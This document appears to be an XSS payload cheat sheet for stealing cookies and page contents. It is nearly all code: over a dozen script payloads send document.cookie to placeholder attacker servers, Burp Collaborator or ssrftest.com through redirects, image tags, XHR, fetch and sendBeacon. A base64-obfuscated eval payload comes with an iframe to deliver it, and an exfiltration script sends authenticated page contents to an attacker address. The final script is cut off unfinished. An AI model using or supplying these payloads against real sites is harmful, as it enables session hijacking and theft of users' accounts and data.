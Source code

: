 ```
<script>document.location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>

<script>document.location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>

<script>document.write('<img src="http://<YOUR_SERVER_IP>?c='+document.cookie+'" />')</script>

<script>window.location.assign('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>

<script>window['location']['assign']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>

<script>window['location']['href']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>

<script>document.location=["http://<YOUR_SERVER_IP>?c",document.cookie].join()</script>

<script>var i=new Image();i.src="http://<YOUR_SERVER_IP>/?c="+document.cookie</script>

<script>window.location="https://<SERVER_IP>/?c=".concat(document.cookie)</script>

<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://<SERVER_IP>/?c="%2Bdocument.cookie, true);xhttp.send();</script>

<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>

<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>
<script>navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie)</script>

Encode the following to base64
'document.location='https://<exploit-server>/?c='+document.cookie
J2RvY3VtZW50LmxvY2F0aW9uPSdodHRwczovL2V4cGxvaXQtPGNoYW5nZW1lPi53ZWItc2VjdXJpdHktYWNhZGVteS5uZXQvP2M9Jytkb2N1bWVudC5jb29raWU=
Final payload:
<iframe src="https://<xss url>/?searchterm='<body onload="eval(atob('base64-encoded'))">//" onload="this.onload='';this.src='#XSS'"></iframe>


Steal page Contents:
<script>
var url = "http://10.10.10.25:8000/vac/a1fbf2d1-7c3f-48d2-b0c3-a205e54e09e8";
var attacker = "http://10.10.14.8/exfil";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', url, true);
xhr.withCredentials = true;
xhr.send(null);
</script>

<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0ace007d04bcb93880c3ee7000dc00a5.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();
```